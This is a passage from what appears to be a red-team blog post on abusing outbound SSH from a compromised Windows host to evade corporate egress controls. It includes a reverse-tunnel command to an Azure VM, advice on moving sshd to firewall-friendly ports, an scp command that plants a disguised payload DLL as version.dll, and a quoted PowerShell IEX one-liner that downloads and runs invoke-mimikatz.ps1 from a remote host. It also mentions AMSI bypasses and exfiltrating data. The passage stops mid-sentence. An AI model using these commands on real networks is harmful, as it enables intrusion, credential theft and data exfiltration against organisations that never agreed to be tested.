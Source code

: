 In this case even if the subdomain is blocked, you could / should try the raw IP anyway because it is on Microsoft owned ASN. I have had it happen that using the raw IP worked, so it is definitely worth a try when you’re desperate. The IP address would be in Microsoft’s ASN and there could be an allowlist somewhere that green lights the range.

> ```
> ssh.exe -R 8888 limiteduser@1.2.3.4(azure_vm_ip)
> ```

### 3\. Alternative Egress Port

Sometimes outbound port 22 to the internet is (fortunately or unfortunately) blocked on the client’s endpoint. However there’s also a catch that not all corporate firewalls inspect the underlying protocol / do SSL stripping and deep packet inspection (so-called Application Layer Firewalls). It is definitely worth a try to set the ssh port to non-22 on your VPS and restart SSHD. Port 80, 443, 53 tend to be good candidates for this to work. I’ve sometimes even seen Windows / AD ports outbound to be allowed, stuff I wouldn’t expect like NETBIOS(139), KERBEROS(88) , SMB(445), LDAP(389) but sometimes it is needed for certain Azure / Entra interaction. Of course classic service ports like SMTP(25), FTP(21) and so on are also within reason to try, but personally I’ve had less luck with those.

> ```
> # edit /etc/ssh/sshd_config with your favorite text editor
> Port 
> 
> # save and close 
> # don't forget to allow inbound on this port from your IP on your cloud provider), then:
> 
> sudo systemctl restart sshd
> ```

## (Bonus) What else could you do with this?

There are a couple of use cases other than just running offensive tooling through an available outbound SSH connection:

- **Getting payloads in and data out:** If you can get SSH out, then either getting payload in or exfiltrate data out via SCP shouldn’t be a problem:
    
    > ```
    > scp.exe user@unsuspecting.uksouth.cloudapp.azure.com:/home/user/totally_okay_payload.dll C:\Public\AppData\version.dll
    > ```
    
- **(More) OpSec safe In memory powershell script execution with IEX:** If you have a good Amsi bypass, ssh is a good way to grab it along with other powershell scripts, especially with how scrutinised Invoke-WebRequest is. The common way observed in the wild to invoke scripts is:
    
    > ```
    > IEX (New-Object System.Net.WebClient).DownloadString('http://192.X.X.X/invoke-mimikatz.ps1')
    > ```
    
    In a constrained PS environment the (New-Object) cmdlet would not even work, and secondly this command has been signatured to death so it’s probably not a smart thing to do in a covert job. However, you can run one command upon ssh-ing into a host in the format of:
    